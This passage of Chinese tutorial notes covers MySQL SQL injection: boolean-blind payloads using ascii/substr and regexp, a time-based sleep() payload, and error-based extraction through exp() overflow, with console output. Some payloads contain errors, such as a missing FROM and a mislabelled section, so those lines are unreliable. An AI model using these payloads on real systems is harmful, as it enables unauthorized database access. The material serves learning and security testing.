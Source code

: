 意为检测database()的第一位ASCII码是否大于114,也即是'r'

##### 构造方式

字符串函数构造

```sql
ascii(substr((select table_name information_schema.tables where tables_schema=database()limit 0,1),1,1))=101 --+        //substr()数，ascii()函数
```

正则构造

```sql
select user() regexp '^[a-z]';
select * from users where id=1 and 1=(user() regexp'^ri');
select * from users where id=1 and 1=(if((user() regexp '^r'),1,0));
```

like匹配注入

```sql
Select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a; 
```

这个和正则差不多

#### 基于时间
if判断语句，条件为假，执行sleep 
```sql
If(ascii(substr(database(),1,1))>115,0,sleep(5))%23 
```
原理大多类似,要求网速比较好

#### 基于报错
得到表名：

```sql
select exp(~(select*from(select table_name from information_schema.tables where table_schema=database() limit 0,1)x));
```
当数字大于BIGINT溢出后mysql会报错, 这里的BIGINT是 !0

```sql
MariaDB [(none)]> select ~0;
+----------------------+
| ~0                   |
+----------------------+
| 18446744073709551615 |
+----------------------+
1 row in set (0.000 sec)
```

然后实验如下:

```sql
MariaDB [(none)]> select (select*from(select user())x);
+-------------------------------+
| (select*from(select user())x) |
+-------------------------------+
| root@localhost                |
+-------------------------------+
1 row in set (0.006 sec)

MariaDB [(none)]> select !(select*from(select user())x);
+--------------------------------+
| !(select*from(select user())x) |
+--------------------------------+
|                              1 |
+--------------------------------+
```